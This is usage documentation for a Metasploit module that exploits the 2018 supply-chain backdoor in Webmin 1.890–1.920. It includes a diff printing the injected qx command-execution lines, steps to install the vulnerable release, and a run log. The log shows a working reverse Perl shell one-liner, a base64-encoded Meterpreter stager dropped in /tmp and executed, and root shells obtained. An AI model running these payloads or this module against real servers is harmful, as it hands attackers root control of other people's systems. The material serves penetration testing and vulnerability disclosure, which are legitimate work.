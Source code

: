 ## Intro

This module exploits a backdoor in Webmin versions 1.890 through 1.920.
Only the SourceForge downloads were backdoored, but they are listed as
official downloads on the project's site.

Unknown attacker(s) inserted Perl `qx` statements into the build server's
source code on two separate occasions: once in April 2018, introducing
the backdoor in the 1.890 release, and in July 2018, reintroducing the
backdoor in releases 1.900 through 1.920.

Only version 1.890 is exploitable in the default install. Later affected
versions require the expired password changing feature to be enabled.

## Analysis

The backdoored code can compared across space and time with `diff3(1)`.

```
wvu@kharak:~/Downloads$ diff3 webmin-1.{890,930,920}/password_change.cgi
====2
1:1c
3:1c
  #!/usr/bin/perl
2:1c
  #!/usr/local/bin/perl
====1
1:12c
  $in{'expired'} eq '' || die $text{'password_expired'},qx/$in{'expired'}/;
2:12c
3:12c
  $miniserv{'passwd_mode'} == 2 || die "Password changing is not enabled!";
====3
1:40c
2:40c
  	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'});
3:40c
  	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'},qx/$in{'old'}/);
====3
1:200c
2:200c
  # Show ok page
3:200c

wvu@kharak:~/Downloads$
```

## Setup

1. `wget https://prdownloads.sourceforge.net/webadmin/webmin-1.890.tar.gz`
2. `tar xf webmin-1.890.tar.gz`
3. `cd webmin-1.890`
4. `./setup.sh`

## Targets

```
Id  Name
--  ----
0   Automatic (Unix In-Memory)
1   Automatic (Linux Dropper)
```

## Options

**RPORT**

Set this to the Webmin port. The default is 10000.

**TARGETURI**

Set this to the Webmin base path. The default is `/`.

**ForceExploit**

Set this to `true` to override the `check` result during exploitation.

## Usage

```
msf5 exploit(unix/webapp/webmin_backdoor) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Webmin 1.890 detected
[+] Webmin 1.890 is a supported target
[+] Webmin executed a benign check command
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Generated command payload: perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"172.28.128.1:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[*] Command shell session 1 opened (172.28.128.1:4444 -> 172.28.128.5:58374) at 2019-08-21 16:49:24 -0500

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux ubuntu-xenial 4.4.0-141-generic #167-Ubuntu SMP Wed Dec 5 10:40:15 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
^Z
Background session 1? [y/N]  y
msf5 exploit(unix/webapp/webmin_backdoor) > set target 1
target => 1
msf5 exploit(unix/webapp/webmin_backdoor) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Webmin 1.890 detected
[+] Webmin 1.890 is a supported target
[+] Webmin executed a benign check command
[*] Configuring Automatic (Linux Dropper) target
[*] Sending linux/x64/meterpreter/reverse_tcp command stager
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+QAAAAAAAAB6AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UmoKQVlWUGopWJlqAl9qAV4PBUiFwHg7SJdIuQIAEVysHIABUUiJ5moQWmoqWA8FWUiFwHklSf/JdBhXaiNYagBqBUiJ50gx9g8FWVlfSIXAecdqPFhqAV8PBV5aDwVIhcB47//m>>'/tmp/FgFBP.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/tDGmH' < '/tmp/FgFBP.b64' ; chmod +x '/tmp/tDGmH' ; '/tmp/tDGmH' ; rm -f '/tmp/tDGmH' ; rm -f '/tmp/FgFBP.b64'"]
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3021284 bytes) to 172.28.128.5
[*] Meterpreter session 2 opened (172.28.128.1:4444 -> 172.28.128.5:58376) at 2019-08-21 16:49:33 -0500
[*] Command Stager progress - 100.00% done (819/819 bytes)

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 10.0.2.15
OS           : Ubuntu 16.04 (Linux 4.4.0-141-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

